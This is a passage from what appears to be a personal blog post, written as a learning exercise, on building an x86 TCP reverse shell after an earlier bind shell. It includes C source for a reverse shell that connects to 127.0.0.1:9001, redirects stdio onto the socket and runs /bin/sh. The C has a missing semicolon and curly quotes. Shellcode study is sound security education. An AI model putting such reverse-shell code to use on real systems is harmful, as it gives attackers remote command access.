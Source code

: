 ```yaml
---
layout: post
title: "x86 TCP Reverse Shell"
---
```


## Introduction
After writing bind shell, I wanted to learnt how to create a TCP reverse shell using x86. I noticed that a high percentage of code could be taken directly from the TCP bind shell. However I chose to implement this from scratch without copy and pasting in order to confirm my newly learnt instructions and confirm I remembered the previous task of creating a bind shell and the steps taken to complete it.

## Brief Thoughts
During this task I performed similar steps to the bind shell, so to prevent a high amount of repetition within this post I will walk through the code once again however I will only explain specific sections of code that were not discussed during the completion of the TCP bind shell, making sure to cover any new C, system calls, wrapper changes and x86. Overall, I found implementing the reverse shell to be easier than the bind shell - but this may be because I had already written my first file in x86 so now this felt a little easier to work through. I had a little trouble making sure the python wrapper stomped out any NULL bytes, however that will be discussed later on in the post.

## Initial Planning
Similar to the bind shell, my first steps are to gather the information required to create my reverse shell - making sure I have all the required system call information and any additional documentation required to duplicate a C based reverse shell. The following C code presents the TCP reverse shell solution that I used as my reference:

```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    // creating our struct for use with socket sys call
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(“127.0.0.1”)
    sa.sin_port = htons(9001);

    // first sys call
    s = socket(AF_INET, SOCK_STREAM, 0);

    // second sys call
    connect(s, (struct sockaddr *)&sa, sizeof(sa));

    // third sys call
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    
    // fourth & final sys call
    execve("/bin/sh", 0, 0);
    return 0;
}
```